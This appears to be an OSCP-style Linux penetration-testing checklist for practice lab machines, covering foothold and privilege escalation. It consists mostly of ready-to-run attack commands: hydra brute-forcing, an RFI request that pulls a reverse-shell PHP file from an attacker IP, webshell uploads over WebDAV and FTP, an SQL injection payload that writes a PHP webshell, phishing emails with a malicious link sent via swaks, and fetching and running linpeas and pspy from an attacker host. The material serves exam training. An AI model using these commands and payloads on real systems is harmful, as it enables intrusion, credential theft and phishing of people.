 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Linux

{% hint style="info" %}
Based on the following PG Practice, PG Play, and PEN-200 boxes: Amaterasu, Apex, Astronaut, BBScute, BitForge, Blogger, Bratarina, Bullybox, ClamAV, Clue, Cockpit, Exfiltrated, Extplorer, Fanatastic, Fired, Flu, FunboxEasyEnum, Gaara, GlasgowSmile, Hawat, Hetemit, Hunit, LaVita, Levram, Loly, Mantis, Marketing, Mzeeav, Nibbles, Nukem, Payday, PC, Pebbles, Pelican, Peppo, Postfish, Potato, QuackerJack, Readys, Roquefort, Scrutiny, Snookums, Sorcerer, SpiderSociety, SPX, Stapler, Sybaris, Vmdak, Walla, WallpaperHub, Wombo, Workaholic, Xposedapi, Zab, ZenPhoto, Zipper,  Crystal (OSCP A), Aero (OSCP A), Berlin (OSCP B), Kiero (OSCP B),  Frankfurt (OSCP C), and Charlie (OSCP C).
{% endhint %}

## Foothold

<details>

<summary>Port Scan</summary>

The `nmap-scan` script can be found [here](https://github.com/CSpanias/ctf-scripts/tree/main?tab=readme-ov-file#nmap-scansh).

```bash
$ sudo nmap-scan <target-IP>
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/web">HTTP(S)</a></summary>

* [ ] [Dirbust](https://x7331.gitbook.io/boxes/web/dirbusting) HTTP(S) ports with a [directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) (plus server-specific extensions) and a [file list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt)&#x20;

{% code overflow="wrap" %}
```bash
# Dirbust with a directory list
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic -ac -c -u http://access/FUZZ -e .aspx,.php,
​


​# Dirbust with a file list
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -ic -ac -c -u http://access/FUZZ
```
{% endcode %}

* [ ] Application-specific PoCs (RCE, LFI, RFI)

{% code overflow="wrap" %}
```bash
# CLI tool
searchsploit <appName> <version>

# Google dork
site:github.com <appName> exploit poc

# RFI revshell
curl --path-as-is -s "http://10.10.10.10:4443/site/index.php?page=http://192.168.45.241:443/revshell_ivan.php" --proxy 127.0.0.1:8080
```
{% endcode %}

* [ ] [File Uploads](https://x7331.gitbook.io/boxes/web/file-uploads)
* [ ] Default/Weak Creds

```bash
uv run creds search <appName>
```

* [ ] BFA

{% code overflow="wrap" %}
```bash
# POST request
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER^&password=^PASS^:F=403'

# POST request (base64-encoded credentials)
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER64^&password=^PASS64^:F=403'
```
{% endcode %}

* [ ] [WebDAV](https://x7331.gitbook.io/boxes/web/webdav)

{% code overflow="wrap" %}
```bash
# Connect to WebDAV
$ cadaver http://x7331
Authentication required for hutch on server 'x7331':
Username: x7331
Password:
# Upload a webshell
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx

# Upload a webshell directly
$ curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u x7331:Pass123!
```
{% endcode %}

* [ ] [Custom wordlists](https://x7331.gitbook.io/boxes/tools/wordlists)

```bash
# Create a userlist based on the site users
username-anarchy -i site_users > anarchy_output

# Create a passlist based on the site content
cewl --write cewl_output http://192.168.202.21/
```

* [ ] [Git repositories](https://x7331.gitbook.io/boxes/web/devops/git-tools)

```bash
# Dump the repository
git-dumper http://target.lab/.git git_repo

# Write all commits to a file
git log | grep commit | cut -d " " -f2 | xargs git show > commits
​
# Open the commits file with VSCode
code commits
```

* [ ] [SQLi](https://x7331.gitbook.io/boxes/web/injections/sqli) (`sqlmap` is allowed for enumeration but not for exploitation)

{% code overflow="wrap" %}
```bash
# Enumeration
sqlmap -r login.req --batch
```
{% endcode %}

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp">Unique Ports</a></summary>



</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] Known vulnerabilities

```bash
sudo nmap -script=smb-vuln\* -p445 10.10.10.10
```

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
$ uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
$ nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999

# Connect and download all files
$ smbclient //target/share -p 12445
Password for [WORKGROUP\x7331]:
Anonymous login successful        
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/shares/21-ftp">FTP</a></summary>

* [ ] Anonymous login

{% code overflow="wrap" %}
```bash
# Anonymous login
ftp anonymous@target
ftp ftp@target
```
{% endcode %}

* [ ] BFA

```bash
hydra -l <user> -P <passlist> ftp://<target>
```

* [ ] Enumerate directories

```bash
# Download dir
wget -r ftp://ftp@target_directory
```

* [ ] Upload files

```bash
ftp> put revshell_ivan.php
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/mail/25-587-smtp">SMTP</a>, <a href="https://x7331.gitbook.io/boxes/services/tcp/mail/110-995-pop3">POP3</a></summary>

* [ ] Username enumeration (SMTP)

```bash
smtp-user-enum -M VRFY -U anarchy_output -t 10.10.10.10
```

* [ ] Inbox enumeration (POP3)

```bash
$ telnet 10.10.10.10 110
USER x7331
+OK x7331 is known here.
PASS Pass123!
+OK Welcome! 4 messages (4744 bytes)
LIST
+OK 4 messages, 4744 bytes
1 1342
2 963
3 1347
4 1092
RETR 1
```

* [ ] Phising attachments ([library-ms](https://x7331.gitbook.io/boxes/social-engineering/phising#attachment), [libre-office](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/libreoffice), [pdf](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/pdf)) or malicious links

{% code overflow="wrap" %}
```bash
# Email body with a malicious link
$ cat body.txt
Please lick here to register: http://192.168.45.170/login.html

# Send an email to multiple email addresses
$ swaks --to $(cat emails.txt | tr '\n' ',') --from it@target.off --header "Subject: ERP Registration link" --body @body.txt --server 192.168.161.137 --port 25

# Listener to receive the response
$ sudo nc -lvnp 80
```
{% endcode %}

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms">Databases</a></summary>

* [ ] [MySQL/MariaDB](https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/3306-mysql-mariadb)

{% code overflow="wrap" %}
```bash
# Connect
mysql -h kali -u x7331 -pPass123! --skip-ssl

# Webshell
'UNION SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/srv/http/webshell.php';-- 
```
{% endcode %}

* [ ] [PostgreSQL](https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/5432-postgresql)

```bash
# Connect
psql -h 127.0.0.1 -p 5437 -U postgresql -W
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/udp/161-snmp">SNMP</a></summary>

```bash
# Public strings
snmpwalk -v2c -c public <target>

# User-related strings
snmpwalk -v2c -c public <target> 1.3.6.1.4.1

# System-related strings
snmpwalk -v2c -c public <target> 1.3.6.1.2.1.1

# Running processes
snmpwalk -v2c -c public <target> 1.3.6.1.2.1.25.4.2.1.2

# Grep for keywords
snmpwalk -v2c -c public <target> | grep -Ei 'user|admin|name|passwd'
```

</details>

## Privilege Escalation

<details>

<summary>User Context</summary>

* [ ] [Permissions](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon#users-and-groups), [groups](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/privilege-escalation/groups), and shell history

```bash
$ sudo -l


$ id


$ cat /home/<user>/.bash_history

```

</details>

<details>

<summary>Host Enumeration</summary>

* [ ] [Manual Enumeration](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon)

```bash
# Enumerate SUIDs
find / -type f -perm -u=s 2>/dev/null

# Enumerate capabilities
getcap -r / 2>/dev/null

# Local TCP sockets
netstat -anot

# Cronjobs
cat /etc/crontab

# Environment variables
env

# Sudo version
sudo --version

# Kernel version
uname -a
```

* [ ] [LinPEAS](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pe-scripts#linux)

```bash
$ wget 192.168.45.216:443/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

* [ ] Running processes ([pspy](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pspy), let it run for at least two minutes)

```bash
$ wget 192.168.45.216:443/pspy64
$ chmod +x pspy64
$ ./pspy64
```

* [ ] Passwords

```bash
grep -rH "password"
```

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/3306-mysql-mariadb">MySQL/MariaDB</a></summary>

* [ ] Enumerate tables

```bash
mysql -h 127.0.0.1 -u x7331 -pPass123! --skip-ssl
```

</details>
